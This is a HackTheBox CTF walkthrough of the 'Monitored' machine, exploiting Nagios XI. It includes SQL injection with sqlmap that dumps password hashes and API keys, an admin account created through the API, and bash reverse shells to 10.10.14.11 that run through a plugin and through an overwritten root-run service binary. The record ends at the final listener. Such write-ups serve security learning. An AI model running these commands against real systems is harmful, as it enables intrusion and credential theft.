 ```yaml
---
title: HTB - Monitored
date: 2024-01-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, monitored, nmap, nagiosxi]
img_path: /assets/htb/fullpwn/monitored/
published: true
image:
    path: room_banner.png
---
```


> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Overview

TBA

## Info gathering

Let's start with a port-scanning:

```bash
sudo nmap -sS -A -Pn -p- --min-rate 10000 monitored

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)

80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)

389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
5667/tcp open  tcpwrapped

Service Info: Hosts: nagios.monitored.htb, 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap info:
- SSH open, but we need creds.
- HTTP redirects to HTTPS -> add to `/etc/hosts`
- Find more about LDAP `389`

## Web enumeration

Upon visiting the webserver on our browser we find a Nagios XI interface:

![](home.png){: .normal width="65%"}

We have encountered Nagios XI before on the Try Hack Me's [Nax](https://cspanias.github.io/posts/THM-Nax/) room. Let's remind ourselves [what Nagios XI is](https://cspanias.github.io/posts/THM-Nax/#21-nagios-xi):

> Nagios XI is kind of a **[boosted crontab](https://man7.org/linux/man-pages/man5/crontab.5.html)**: it periodically runs scripts which can be reached from a command line or a GUI. When something goes wrong, it will generate an alert in the form of an email or SMS, which helps developers start working on the issue right away, before it has any negative impact on the business productivity.

![](https://cspanias.github.io/assets/thm/fullpwn/nax/Nagios-Working-nagios-Tutorial-Edureka-3.png)

We can start by performing a recursive dir-busting with `ffuf`. It will search for subdirectories, e.g. `https://nagios.monitored.htb/FUZZ`,  and if any is found, it will then create a new job and perform dir-busting for `https://nagios.monitored.htb/newly-found-directory/FUZZ`:

```bash
$ ffuf -u https://nagios.monitored.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion

<SNIP>
javascript              [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/javascript/FUZZ

nagios                  [Status: 401, Size: 468, Words: 42, Lines: 15, Duration: 29ms]
                        [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 28ms]
[INFO] Starting queued job on target: https://nagios.monitored.htb/javascript/FUZZ

jquery                  [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 32ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/javascript/jquery/FUZZ
```

Based on the above output, we can see that `ffuf` discovered 2 new directories: `/javascript` and `/nagios`. It then went on to enumerate the former and found `/javascript/jquery`, but it did not enumerate the latter. This is because it got a [`401` Unauthorized error](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/401) response code, and couldn't proceed without credentials. 

It seems that `/nagios` is some sort of another login portal:

![](nagios_subdir.png){: .normal width="65%"}

Unfortunately, we don't have any credentials at the moment. We can always try searching for default credentials used in Nagios XI:

![](nagios_def_creds.png){: .normal width="65%"}

Unfortunately, that did not work! Next, we can try perform a **Hail Mary** scan using [incursore](https://github.com/wirzka/incursore) and see what we get back:

```bash
# hail mary mode!
$ sudo incursore.sh -H 10.10.11.248 --type All
```

`incursore` produces a ton of files, but it neatly organizes them for us:

```bash
$ tree 10.10.11.248/
10.10.11.248/
├── incursore_10.10.11.248_All.txt
├── nmap
│   ├── CVEs_10.10.11.248.nmap
│   ├── full_TCP_10.10.11.248.nmap
│   ├── Recon_10.10.11.248.nmap
│   ├── Script_TCP_10.10.11.248.nmap
│   ├── UDP_10.10.11.248.nmap
│   ├── UDP_Extra_10.10.11.248.nmap
│   └── Vulns_10.10.11.248.nmap
└── recon
    ├── ffuf_10.10.11.248_443.txt
    ├── ffuf_10.10.11.248_80.txt
    ├── ldapsearch_10.10.11.248.txt
    ├── ldapsearch_DC_10.10.11.248.txt
    ├── nmap_ldap_10.10.11.248.txt
    ├── screenshot_http_10.10.11.248_80.jpeg
    ├── screenshot_https_10.10.11.248_443.jpeg
    ├── snmpcheck_10.10.11.248.txt
    ├── snmpwalk_10.10.11.248.txt
    └── sslscan_10.10.11.248_443.txt

3 directories, 18 files
```

After going through the `incursore_10.10.11.248_All.txt` file, we can note down whatever we think that might be useful:

```bash
<SNIP>

[*] UDP port scan launched

PORT    STATE SERVICE
123/udp open  ntp
161/udp open  snmp

<SNIP>

[+] Starting snmp-check session

snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.248:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.248
  Hostname                      : monitored
  Description                   : Linux monitored 5.10.0-27-amd64 #1 SMP Debian 5.10.205-2 (2023-12-31) x86_64
  Contact                       : Me <root@monitored.htb>
  Location                      : Sitting on the Dock of the Bay
  Uptime snmp                   : 00:56:30.21
  Uptime system                 : 00:56:18.35
  System date                   : 2024-1-13 16:14:19.0

<SNIP>
```

We see that there is an NTP service and an SNMP service listening on port `123` and port `161`, respectively. We can also see some system info.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ntp):

> The **Network Time Protocol (NTP)** is a networking protocol for clock synchronization between computer systems over packet-switched, variable-latency data networks.

Trying the commands listed on the above article, did not get us anywhere. 

Let's see if SNMP has more to offer after reminding ourselves what SNMP is used for: 

> **Simple Network Management Protocol (SNMP)** is a protocol for remotely monitoring and configuring network devices, such as routers, switches, servers, IoT devices, etc. It is used to collect and report data from network devices connected to IP networks ([The Ultimate Guide to SNMP](https://www.auvik.com/franklyit/blog/the-ultimate-guide-to-snmp/)).

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) also has an article for pentesting SNMP, but `incursorone` has already done most of it already. If we keep reading `incursore`'s output, or just the `10.10.11.248/recon/snmpwalk_10.10.11.248.txt`  file, we will find some credentials:

```bash
iso.3.6.1.2.1.25.4.2.1.5.561 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "

<SNIP>

iso.3.6.1.2.1.25.4.2.1.5.1447 = STRING: "-u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"
iso.3.6.1.2.1.25.4.2.1.5.1448 = STRING: "-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

<SNIP>

```

We can try using those (`svc:XjH7VCehowpR1xZB`) to log into one of the two Nagios login portals we have discovered so far. It seems that they do not work at `https://nagios.monitored.htb/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1`, but they do work at `https://nagios.monitored.htb/nagios` !  

![](nagios_login.png)

After searching around for a while we can't find much, with the exception of the software's version: `4.4.13`. Now that we have the version, we can search for any associated vulnerabilities. There is [CVE-2019-15949](https://nvd.nist.gov/vuln/detail/CVE-2019-15949) which has a metasploit module, but it does not seem to work. There is also an interesting [post](https://outpost24.com/blog/nagios-xi-vulnerabilities/) from Outpost24 which lists a number of Nagios XI vulnerabilities related to privilege escalation.

Since, we don't have many avenues to go further for now, let's also dir-bust the `/nagiosxi` directory:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt  -recursion

<SNIP>

help                    [Status: 301, Size: 338, Words: 20, Lines: 10, Duration: 26ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/help/FUZZ

tools                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/tools/FUZZ

mobile                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/mobile/FUZZ

admin                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/admin/FUZZ

reports                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/reports/FUZZ

account                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 31ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/account/FUZZ

includes                [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 29ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/includes/FUZZ

backend                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 33ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/backend/FUZZ

db                      [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 28ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/db/FUZZ

api                     [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 32ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/api/FUZZ

config                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 30ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/config/FUZZ

views                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 30ms]
[INFO] Adding a new job to the queue: https://nagios.monitored.htb/nagiosxi/views/FUZZ

sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 304ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 78ms]

<SNIP>
```

It seems that this has a lot of directories, so it is a good idea to adjust our scan by removing the recursion flag and then enumerate just what it seems interesting:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt

mobile                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 31ms]
admin                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 29ms]
reports                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 30ms]
account                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
includes                [Status: 301, Size: 342, Words: 20, Lines: 10, Duration: 30ms]
backend                 [Status: 301, Size: 341, Words: 20, Lines: 10, Duration: 29ms]
db                      [Status: 301, Size: 336, Words: 20, Lines: 10, Duration: 33ms]
api                     [Status: 301, Size: 337, Words: 20, Lines: 10, Duration: 32ms]
config                  [Status: 301, Size: 340, Words: 20, Lines: 10, Duration: 43ms]
views                   [Status: 301, Size: 339, Words: 20, Lines: 10, Duration: 31ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 30ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 74ms]
```

A lot of directories have been found, including `/admin`, `/api` and `/terminal`, among others. After enumerating all of them, here is what we have:

| Directories                                                  | Subdirectories                                  |
|--------------------------------------------------------------|-------------------------------------------------|
| `/mobile`                                                    | `/static`, `/views`, `/controllers`             |
| `/includes`                                                  | `/css`, `/js`, `/components`, `/lang`, `/fonts` |
| `/backend`                                                   | `/includes`                                     |
| `/db`                                                        | `/adodb`                                        |
| `/api`                                                       | `/includes`, `/v1`                              |
| `/config`                                                    | `/deployment`                                   |
| `/terminal`                                                  | `/secure`, `/plain`                             |
| `/admin`, `/reports`, `/account`, `/db`, `/views`, `/sounds` | None                                            |

From those, we can further explore:
- `/terminal` because it is a terminal after all!
- `/api` because it represents the intended way for developers and other apps to communicate with the application.

The `/terminal` directory requires credentials, and the ones we currently have do not work:

![](terminal_login.png){: .normal width="65%"}

Next, we can recursively scan with the `/api` directory. It turns out that `/api/includes` does not have other subdirectories, but when it starts scanning the `/api/v1` subdirectory it returns the following:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion

<SNIP>

[INFO] Starting queued job on target: https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ

full                    [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 437ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 451ms]
serial                  [Status: 200, Size: 32, Words: 4, Lines: 2, Duration: 509ms]
spacer                  [Status: 200, Size: 32, Words: 4, Lines: 

<SNIP>
```

We need to filter out `ffuf`'s output based on the HTTP response size, which in this case is `32`:

```bash
$ ffuf -u https://nagios.monitored.htb/nagiosxi/api/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -recursion -fs 32

license                 [Status: 200, Size: 34, Words: 3, Lines: 2, Duration: 422ms]
%20                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 27ms]
video games             [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 40ms]
authenticate            [Status: 200, Size: 53, Words: 7, Lines: 2, Duration: 819ms]
4%20Color%2099%20IT2    [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 238ms]
long distance           [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 27ms]

<SNIP>
```

There are lot sub-directories returned with the HTTP [`403 Forbidden` response status code](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403). Interestingly enough, there are two subdirectories with the HTTP [`200 OK` response status code](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/200): `/license` and `/authenticate`. We can try to see how these requests look like using Burp. 

We get a "*Unknown API*" error message upon reaching `/license`:

![](license_dir.png)

When sending a `GET` request to `/authenticate`, we get the following:

![](v1_auth_error.png)

Changing the request method from `GET` to `POST`:

![](post_v1_auth_error.png)

After trying to pass our current creds (`svc:XjH7VCehowpR1xZB`) as plain parameters or in JSON format, nothing worked. To find out how the login request works, we can try to login to `/nagiosxi/login.php` with our non-working credentials, capture the request, and then inspect it:

![](login_request_params.png)

We can now keep the request as it is, but send it to `/api/v1/authenticate`:

![](auth_token.png)

We get an authentication token back: `"auth_token":"1c57b07be29194d09f34d35587f84fe716c74e1f"`. Upon searching what we can do with this, we find the [API documentation](https://www.nagios.org/ncpa/help/2.0/api.html) which includes the following token usage: `https://localhost:5693/api?token=mytoken`. Let's try that:

![](token_error.png)

After searching some more about token authentication, we find a post titled as ["*Help with insecure login / backend ticket authentication*"](https://support.nagios.com/forum/viewtopic.php?t=58783&sid=d7eb283ff38882a13a1d5efa18649ac7) which used the `/index.php` directory to pass the credentials instead of `/api/v1/authenticate`. 

Let's see where this does for us:

![](token_redirection.png)

![](token_login.png)

That actually worked, we managed to use the token to authenticate! 

![](token_login_browser.png)

We found this [post](https://outpost24.com/blog/nagios-xi-vulnerabilities/) before which mentions 3 SQLi and one XSS privilege escalation attacks. We can try the first one, [CVE-2023-40931](https://nvd.nist.gov/vuln/detail/CVE-2023-40931) using `sqlmap`:

```bash
# enumerate databases
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbs

<SNIP>

[15:57:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:57:03] [INFO] fetching database names
[15:57:03] [INFO] resumed: 'information_schema'
[15:57:03] [INFO] resumed: 'nagiosxi'
available databases [2]:
[*] information_schema
[*] nagiosxi

<SNIP>
```

We got some information back:
- The DMBS used is MySQL.
- We have two databases: `nagiosxi` and `information_schema`.

The [vulnerability description](https://outpost24.com/blog/nagios-xi-vulnerabilities/) mentions that there is a `xi_users` table; let's see if this exists:

```bash
# enumerate tables
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbms=MySQL -D nagiosxi --tables

<SNIP>

Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+

<SNIP>
```

The table `xi_users` exists indeed! Let's see what it contains:

```bash
# enumerate xi_users table
$ sqlmap --url="https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3" --method=POST --cookie="nagiosxi=hl3av7bhs2mrk4kc6h49pj13qc" -p id --drop-set-cookie --risk=3 --level=5 --dbms=MySQL -D nagiosxi -T xi_users --dump

<SNIP>

Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc
| 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1705417476   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 5              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

<SNIP>
```
The `xi_users` table contains the hashed password (`$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C`) and the API key (`IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`) of the `nagiosadmin` account!

After searching how the API key is used on Nagios XI, we find [this](https://assets.nagios.com/downloads/nagiosxi/docs/Automated_Host_Management.pdf):

> _An example of a CURL command used to access the API is as follows:_
>
> `curl -XGET "http://10.25.5.2/nagiosxi/api/v1/system/status?apikey=5goacg8s&pretty=1"`

After some more searching, we find out that we can [add a user](https://support.nagios.com/forum/viewtopic.php?f=16&t=42923) via the Backbend API:

> _You can use the new REST API to add users:_ 
>
> `curl -XPOST "http://x.x.x.x/nagiosxi/api/v1/system/user?apikey=LTltbjobR0X3V5ViDIitYaI8hjsjoFBaOcWYukamF7oAsD8lhJRvSPWq8I3PjTf7&pretty=1" -d "username=jmcdouglas&password=test&name=Jordan%20McDouglas&email=jmcdouglas@localhost"`

That's interesting, but we need a bit more than that. We already have a user, but we need to create a privileged user, not just any user. There is a [Metasploit module](https://www.exploit-db.com/exploits/44969) that seems to automate this whole process, including an interesting function:

```bash
def try_add_admin(key, username, passwd)
    vprint_status "STEP 3: trying to add admin user with key #{key}"
    res = send_request_cgi({
      'uri'=> "/nagiosxi/api/v1/system/user",
      'method' => 'POST',
      'ctype' => 'application/x-www-form-urlencoded',
      'vars_get' => {
        'apikey' => key,
        'pretty' => 1
      },
      'vars_post' =>{
        'username'   => username,
        'password'   => passwd,
        'name'       => rand_text_alpha(rand(5) + 5),
        'email'      =>"#{username}@localhost",
        'auth_level' =>'admin',
        'force_pw_change' => 0
      }
    })
```

We can now try to create a new user using the parameters we have found before plus the `auth_level=admin`:

```bash
curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=xhi4m&password=password&name=xhi4m&email=xhi4m@mail.com&auth_level=admin"
{
    "success": "User account xhi4m was added successfully!",
    "user_id": 6
}
```

We successfully created the user `xhi4m` with `admin` privileges! Let's login:

![](login_xhi4m.png)

Now that we have elevated privileges, we can search if we can leverage any kind of [SSTI vulnerability](https://portswigger.net/web-security/server-side-template-injection). After reading a lot of documentation, we managed to find a detailed kind of how Nagios XI plugins work: [Managing plugins in Nagios XI](https://assets.nagios.com/downloads/nagiosxi/docs/Managing-Plugins-in-Nagios-XI.pdf). According to the documentation, we can execute commands by using plugins. The process is as follows:

1. Upload the a reveshe shell script as a plugin.
2. Create a command which will execute the plugin.
3. Create a service to run the command.

We can create a reverse shell script locally and then upload it as a plugin to Nagios XI:

```bash
$ cat check_command
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/1337 0>&1'
```

If we did everything according to the documentation, and we then execute the check command, we should be able to catch our reverse shell:

```bash
$ sudo nc -lvnp 1337
[sudo] password for kali:
listening on [any] 1337 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.248] 47560
bash: cannot set terminal process group (2841): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ cat ~/user.txt
<SNIP>
```

## Privilege escalation

Let's first stabilize our shell and then check if our user has any elevated privileges:

```bash
nagios@monitored:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nagios@monitored:/tmp$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
nagios@monitored:/tmp$
```

That's interesting: a lot of scripts and services that `nagios` can run as `root`! Next, let's transfer and run [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to the target:

```bash
# start a Python3 HTTP server from where the linpeas.sh script is located
$ python3 -m http.server 8888
```

```bash
# download the linpeas script to the target
nagios@monitored:~$ wget http://10.10.14.11:8888/linpeas.sh
wget http://10.10.14.11:8888/linpeas.sh
--2024-01-17 02:12:44--  http://10.10.14.11:8888/linpeas.sh
Connecting to 10.10.14.11:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847920 (828K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 828.05K  2.16MB/s    in 0.4s

2024-01-17 02:12:45 (2.16 MB/s) - ‘linpeas.sh’ saved [847920/847920]
# check file's permissions
nagios@monitored:~$ ls -l
ls -l
total 840
-rw-r--r-- 1 nagios nagios    131 Jan 17 01:24 cookie.txt
-rw-r--r-- 1 nagios nagios 847920 Dec 30 23:27 linpeas.sh
-rw-r----- 1 root   nagios     33 Jan 17 01:19 user.txt
# give executable permissions to the file
nagios@monitored:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
# check file's permissions
nagios@monitored:~$ ls -l
ls -l
total 840
-rw-r--r-- 1 nagios nagios    131 Jan 17 01:24 cookie.txt
# execute the file
nagios@monitored:~$ ./linpeas.sh
./linpeas.sh

<SNIP>

╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services
/etc/systemd/system/multi-user.target.wants/mariadb.service could be executing some relative path
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/nagios.service is calling this writable executable: /usr/local/nagios/bin/nagios
/etc/systemd/system/multi-user.target.wants/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd
/etc/systemd/system/npcd.service is calling this writable executable: /usr/local/nagios/bin/npcd

<SNIP>
```

It seems that we have some executables that we can write to, such as `/usr/local/nagios/bin/npcd` that they were also present in our `sudo -l` list:

```bash
(root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
```

We can also see that the `manage_services.sh` script is written for starting, restarting, and stopping services, including `npcd`:

```bash
nagios@monitored:~$ cat /usr/local/nagiosxi/scripts/manage_services.sh
cat /usr/local/nagiosxi/scripts/manage_services.sh
#!/bin/bash
#
# Manage Services (start/stop/restart)
# Copyright (c) 2015-2020 Nagios Enterprises, LLC. All rights reserved.
#
# =====================
# Built to allow start/stop/restart of services using the proper method based on
# the actual version of operating system.
#
# Examples:
# ./manage_services.sh start httpd
# ./manage_services.sh restart mysqld
# ./manage_services.sh checkconfig nagios
#

BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")

<SNIP>
```

Based on this info, we could:
1. Replace the `/usr/local/nagios/bin/npcd` executable, since we have write access with a reverse shell bash script.
2. Use the `manage_services.sh` script to restart the service, so the replaced executable can be run.

Since the latter is run as `root`, we should receive a `root` shell back. Let's start by create a reverse shell script and transfer it to the target:

```bash
# create the reverse shell script
$ cat npcd
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/9999 0>&1'
# launch a Python3 HTTP server
python3 -m http.server 8888
```

Let's set up our listener before moving forward:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
```

Next, let's download the script from the target and restart the service:

```bash
nagios@monitored:~$ cd /usr/local/nagios/bin/
cd /usr/local/nagios/bin/
nagios@monitored:/usr/local/nagios/bin$ ls
ls
nagios      ndo.so          npcd.bk    npcd.save  nrpe-uninstall
nagiostats  ndo-startup-hash.sh  npcdmod.o  nrpe       nsca
nagios@monitored:/usr/local/nagios/bin$ wget http://10.10.14.11:8888/npcd
wget http://10.10.14.11:8888/npcd
--2024-01-17 04:26:27--  http://10.10.14.11:8888/npcd
Connecting to 10.10.14.11:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69 [application/octet-stream]
Saving to: ‘npcd’

npcd                100%[===================>]      69  --.-KB/s    in 0s

2024-01-17 04:26:27 (8.84 MB/s) - ‘npcd’ saved [69/69]
# give executable permissions to the file
nagios@monitored:/usr/local/nagios/bin$ chmod +x npcd
chmod +x npcd
# check permissions
nagios@monitored:/usr/local/nagios/bin$ ls -l npcd
ls -l npcd
-rwxr-xr-x 1 nagios nagios 69 Jan 17 04:23 npcd
# restart the service
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
<al/nagiosxi/scripts/manage_services.sh restart npcd
```

Let's check our listener:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
